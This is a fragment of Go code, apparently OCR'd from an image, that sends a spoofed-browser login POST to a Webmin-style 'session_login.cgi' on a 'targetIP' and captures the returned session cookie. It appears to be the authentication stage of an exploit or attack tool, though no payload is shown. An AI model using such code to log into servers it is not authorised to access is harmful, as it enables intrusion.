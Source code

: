 ```go  
	}
	client := &http.Client{
		Transport: tr,
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
			return http.ErrUseLastResponse
		},
	}

	req, err := http.NewRequest("POST", url, body)
	if err != nil {
		fmt.Println("Error creating request:", err)
		return
	}

	req.Header.Set("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0")
	req.Header.Set("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8")
	req.Header.Set("Accept-Language", "en-US,en;q=0.5")
	req.Header.Set("Accept-Encoding", "gzip, deflate")
	req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
	req.Header.Set("Content-Length", fmt.Sprint(body.Len()))
	req.Header.Set("Origin", "http://"+targetIP)
	req.Header.Set("DNT", "1")
	req.Header.Set("Connection", "close")
	req.Header.Set("Referer", fmt.Sprintf("http://%s/session_login.cgi?logout=1", targetIP))
	req.Header.Set("Cookie", "testing=1")
	req.Header.Set("Upgrade-Insecure-Requests", "0")

	reqBody, err := ioutil.ReadAll(req.Body)
	if err != nil {
		fmt.Println("Error reading request body:", err)
		return
	}
	fmt.Println("- Request Body:", string(reqBody))
	req.Body = ioutil.NopCloser(strings.NewReader(string(reqBody)))

	fmt.Println("- Request Cookies:")
	for _, cookie := range req.Cookies() {
		fmt.Println(cookie.Name + "=" + cookie.Value)
	}

	fmt.Println("- Request Headers:")
	for header, values := range req.Header {
		for _, value := range values {
			fmt.Println(header + ": " + value)
		}
	}

	resp, err := client.Do(req)
	if err != nil {
		fmt.Println("Error sending request:", err)
		return
	}
	defer resp.Body.Close()

	if resp.StatusCode == http.StatusFound {
		var sid string
		for _, cookie := range resp.Cookies() {
			if cookie.Name == "sid" {
				sid = strings.Trim(cookie.Value, "/=; ")
				break
			}
```